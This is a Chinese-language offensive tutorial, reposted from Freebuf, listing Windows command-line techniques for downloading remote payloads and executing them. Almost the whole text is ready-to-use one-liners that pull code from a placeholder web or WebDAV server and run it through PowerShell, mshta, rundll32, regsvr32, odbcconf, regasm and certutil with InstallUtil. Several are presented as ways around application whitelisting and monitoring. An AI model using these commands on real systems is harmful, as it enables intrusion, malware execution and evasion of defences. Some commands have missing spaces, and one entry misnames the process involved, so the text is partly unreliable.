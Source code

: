 # Windows下载远程Payload并执行代码的各种技巧

@转自Freebuf

首先，这些命令行工具需要满足以下条件：

1. 允许执行任意代码；

2. 支持从远程服务器下载Payload；

3. 支持代理；

4. 支持尽可能多的Microsoft标准（或使用广泛的）代码库；

5. 只会在内存中执行，而不会在磁盘中留下痕迹；

实际上，前人已经在这个领域做出了很多的努力。尤其是@subTee，他不仅设计出了应用程序白名单绕过技术，而且他还发明了使用Microsoft内置代码库来执行任意代码的方法。

需要注意的是，并非所有的命令行工具都满足上述所有的条件，尤其是上面的第五点，因为在绝大多数情况下，工具都会在目标系统的本地磁盘中下载Payload或其他恶意文件。

如果考虑到需要从远程服务器下载Payload文件的话，一般只有下面这三种可能的情况：

1. 命令本身可以接受一个HTTP URL作为其中一个参数；

2. 命令接受一个UNC路径（指向一台WebDAV服务器）；

3. 命令能够执行一个小型的内联脚本（脚本负责完成下载任务）；

根据Windows系统版本的不同（Win 7或Win 10），系统会将那些通过HTTP下载的对象存储在不同的IE本地缓存之中：

    C:\Users\<username>\AppData\Local\Microsoft\Windows\TemporaryInternet Files\
    C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>

而通过UNC路径（指向一台WebDAV服务器）访问的文件将会被存储在WebDAV客户端本地缓存之中：

    C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

在使用UNC路径指向一台托管了Payload的WebDAV服务器时，请记住一点：只有当WebClient服务开启之后该功能才能正常工作。假设该服务没有开启，那么如果你想使用低权限用户角色来开启该服务的话，可以直接在命令行界面中使用命令`pushd \\webdavserver & popd`。

在下面给出的场景中，我们将会给大家介绍几种热门命令行工具的使用以及注意事项。

## PowerShell

毫无疑问，Powershell绝对是目前最著名的命令行工具了，但同时它也受监控最多的一个了。下面给出的是一种代理友好型命令：

    powershell -exec bypass -c"(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

在这条命令中，负责执行网络调用的是powershell.exe，而且不会在本地磁盘中写入Payload。

当然了，你也可以对命令进行部分编码。除此之外，你还可以直接从一台WebDAV服务器来调用Payload：

    powershell -exec bypass -f \\webdavserver\folder\payload.ps1

在上面这条命令中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Cmd

当你想使用cmd.exe运行一个批处理文件时，为什么情况会变得很复杂呢？尤其是当你的批处理文件不仅会执行一系列命令，而且还嵌入了任意类型文件的时候。命令如下：

    cmd.exe /k <\\webdavserver\folder\batchfile.txt

在上述命令中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Cscript/Wscript

这两种命令行工具也是很常见的，我们可以使用一行命令来从一台远程服务器中下载Payload：

    cscript //E:jscript\\webdavserver\folder\payload.txt

在上述命令中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Mshta

实际上，Mshta跟cscript/wscript是一类的，但是它还可以执行内联脚本，我们可以通过内联脚本来下载并执行Payload代码：

    mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))

在上述命令中，负责执行网络调用的是mshta.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。

由于mshta还可以接受URL地址作为参数并执行HTA文件，因此我们还可以使用下面这种小技巧来执行命令：

    mshta http://webserver/payload.hta

其中，负责执行网络调用的是mshta.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。

除此之外，下面的命令还可以隐藏mshta.exe所下载的内容：

    mshta \\webdavserver\folder\payload.hta

其中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Rundll32

Rundll32也非常出名，它的使用方式非常多样化。首先，我们可以使用UNC路径来引用一个标准的DLL文件：

    rundll32 \\webdavserver\folder\payload.dll,entrypoint

在上述命令中，负责执行网络调用的是mshta.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。

Rundll32还可以用来调用某些内联脚本：

    rundll32.exejavascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

其中，负责执行网络调用的是rundll32.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。

## Regasm/Regsvc

Regasm和Regsvc是@subTee发明的其中一种应用程序白名单绕过技术，你需要创建一个特殊的DLL（可使用.Net或C#编写）来获取相应接口，然后通过WebDAV来调用这个文件：

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe/u \\webdavserver\folder\payload.dll

其中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Regsvr32

这种技术也是@subTee发明的，它需要的脚本跟mshta所使用的有些许不同。首选方法如下：

    regsvr32 /u /n /s/i:http://webserver/payload.sct scrobj.dll

负责执行网络调用的是regsvr32.exe，而命令会将下载的Payload文件写入到IE本地缓存之中。

其次，我们还可以使用UNC/WebDAV：

    regsvr32 /u /n /s/i:\\webdavserver\folder\payload.sct scrobj.dll

其中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。

## Odbcconf

Odbcconf跟regsvr32有些类似，它同样是@subTee发明的。它能够执行包含特殊功能的DLL，需要注意的是，这种DLL文件不需要使用.dll后缀，而且可以通过UNC/WebDAV下载：

    odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

其中，负责执行网络调用的是svchost.exe，而命令会将下载的Payload文件写入到WebDAV客户端本地缓存之中。
命令结合

实际上，我们可以根据自己的需要来同时运行多条命令。

比如说，整个Payload下载部分我们都可以通过certutil.exe来完成：

    certutil -urlcache -split -fhttp://webserver/payload payload

除此之外，我们还可以用certutil.exe配合InstallUtil.exe来执行特殊的DLL：

    certutil -urlcache -split -fhttp://webserver/payload.b64 payload.b64 & certutil -decode payload.b64payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil/logfile= /LogToConsole=false /u payload.dll

当然了，你也可以直接传递一个可执行文件：

    certutil -urlcache -split -fhttp://webserver/payload.b64 payload.b64 & certutil -decode payload.b64payload.exe & payload.exe

## Payload样本

你可以从atomic-red-team的GitHub代码库中获取可用的Payload样本：

GitHub地址：https://github.com/redcanaryco/atomic-red-team

除此之外，你也可以从GreatSCT项目的GitHub中获取自动生成的Payload:

GitHub地址：https://github.com/GreatSCT/GreatSCT